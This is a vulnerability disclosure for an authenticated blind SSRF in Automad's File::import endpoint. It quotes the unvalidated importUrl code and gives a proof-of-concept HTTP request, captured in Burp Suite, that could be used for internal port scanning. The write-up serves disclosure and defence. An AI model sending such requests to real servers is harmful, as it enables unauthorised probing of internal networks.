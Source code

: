 # Authenticated Blind SSRF

It was discovered that the import function on the `FileController.php` file was not validated the value of the `importUrl` parameter.

```jsx
public static function import() {
		$Response = new Response();
		$Messenger = new Messenger();

		FileModel::import(
			Request::post('importUrl'),
			Request::post('url'),
			$Messenger
		);

		$Response->setError($Messenger->getError());

		return $Response;
	}
```

Import.js

```jsx
$.post(
					'?controller=File::import',
					{ url: url, importUrl: importUrl },
					function (data) {
						if (data.error) {
							Automad.Notify.error(data.error);
						} else {
							$modal.on(
								'hide.uk.modal.automad.import',
								function () {
									$modal.off('automad.import');
									$form.empty().submit();
								}
							);

							UIkit.modal(ai.selectors.modal).hide();
						}
					},
```

This issue allow pentester to perform a port scan against the local environment or abuse some service. The following screenshots show the pentester was able to perform this issue when importing a file from a remote webn server (**`POST /dashboard?controller=File::import`**)

![1](https://github.com/screetsec/VDD/assets/17976841/cea8d602-96d3-49cb-b003-476208430d40)

Burp Suite Requests:

```jsx
POST /dashboard?controller=File::import HTTP/1.1
Host: automad.scr
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 34
Origin: http://automad.scr
Connection: close
Referer: http://automad.scr/dashboard?view=Shared
Cookie: Automad-8d86b702d2bd8d7c568d8600480adaef=[Cookie]

url=&importUrl=$[URL]
```

Server Response:

![2](https://github.com/screetsec/VDD/assets/17976841/e83d1693-2242-4023-b55e-65239742da9b)
